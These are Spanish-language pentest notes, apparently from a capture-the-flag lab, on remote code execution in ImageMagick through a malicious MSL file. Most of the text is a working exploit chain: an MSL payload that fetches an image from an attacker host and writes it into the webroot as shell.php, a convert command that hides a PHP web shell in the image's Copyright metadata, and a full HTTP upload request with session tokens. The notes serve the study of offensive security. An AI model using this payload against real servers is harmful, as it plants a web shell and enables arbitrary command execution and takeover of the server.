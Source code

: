 # Image magick RCE attack
- [Articulo](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- Si encontramos algún aplicativo utilizando ImageMagick, podemos intentar ejecutar código remoto a través de la carga de una imagen maliciosa o de un magick scripting language (MSL).
    - los MSL son archivos XML que contienen instrucciones para ImageMagick.
    - La carga de un MSL malicioso puede permitir la ejecución de código arbitrario en el servidor.

## Ejemplo de payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://10.10.14.58/positive.png" />
  <write filename="/var/www/html/intentions/public/shell.php" />
</image>
```

- Siendo positive: `convert xc:red -set 'Copyright' '<?php echo shell_exec($_REQUEST["cmd"]); ?>' positive.png`
    - `convert` es el comando de ImageMagick para convertir imágenes.
    - `xc:red` es un color sólido rojo.
    - Entonces lo que hace esto es crear una imagen roja y establecer el campo de metadatos 'Copyright' con el contenido del script PHP.

## Ejemplo de petición HTTP para subir este payload

```
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=charcoal HTTP/1.1
Host: 10.10.11.220
Content-Length: 294
X-XSRF-TOKEN: eyJpdiI6IlA2Qnpka1pWQm1nTG5RK3lFc05jekE9PSIsInZhbHVlIjoiOEljTnJWb0pLczFYZmtJcU5nWkdSVjE5SVhrYnU1VWZuSW4vZnRjZWVrNzNJWnNpTjYzUCt4N2dyM1BOaDRHQnJncDdqUmxoeHRxV3pCYnVoa2w4VWhEcGhSSWVGV3ZpVWljMElKY1EzczI3NEYzU0FSZXNmZVNWKy9iTUlxeFciLCJtYWMiOiJhNzkzMjgzZTRkNzAxMTliMjk2ZmI3YTgxMzk5YzQ5OTIxY2IwYmEzNDI4OGNkMGRmM2I5NWE3OGZmMTYwYWUzIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=ABC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Origin: http://10.10.11.220
Referer: http://10.10.11.220/admin
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ5MzMzLCJleHAiOjE3NDQwNzA5MzMsIm5iZiI6MTc0NDA0OTMzMywianRpIjoiSlRrV0NnTm5RSFJOZ29QQiIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.o1yh_a8A1SiugE90Ia6xVhk3Ap8RQSC0AZPW9lCaFPo; XSRF-TOKEN=eyJpdiI6IlA2Qnpka1pWQm1nTG5RK3lFc05jekE9PSIsInZhbHVlIjoiOEljTnJWb0pLczFYZmtJcU5nWkdSVjE5SVhrYnU1VWZuSW4vZnRjZWVrNzNJWnNpTjYzUCt4N2dyM1BOaDRHQnJncDdqUmxoeHRxV3pCYnVoa2w4VWhEcGhSSWVGV3ZpVWljMElKY1EzczI3NEYzU0FSZXNmZVNWKy9iTUlxeFciLCJtYWMiOiJhNzkzMjgzZTRkNzAxMTliMjk2ZmI3YTgxMzk5YzQ5OTIxY2IwYmEzNDI4OGNkMGRmM2I5NWE3OGZmMTYwYWUzIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImsvS1lzSUNTaVdqdDhNZ3FkUUYvZ2c9PSIsInZhbHVlIjoiNzdqdk82MHlOdEYrQWxnM2UrWGtXQWZob3VZdk5pVjdKOHFGRFMxYUlPWUdkaUZpNjdXVVNjUEc3S01ZQisxRHk5MzBoelpTWldlZ3hMYkkwVlZSalh1SHM4aGJHRGFwWVFoMXVDcTY0a21JbDFCemFGTnM3c3RITWRiNHZJODEiLCJtYWMiOiI0YTU4NmY1ZWI1NDVjMjM0MTljOTk0MzA5MjgwNzY3Y2I0ZDY3M2UwZWVlMTNlNmYxYTg5Y2I4OGM5YTM3NDc4IiwidGFnIjoiIn0%3D
Connection: keep-alive
--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://10.10.14.58/positive.png" />
  <write filename="/var/www/html/intentions/public/shell.php" />
</image>
--ABC--
``` 

----

- Esta vulnerabilidad es clasificada como RCE.
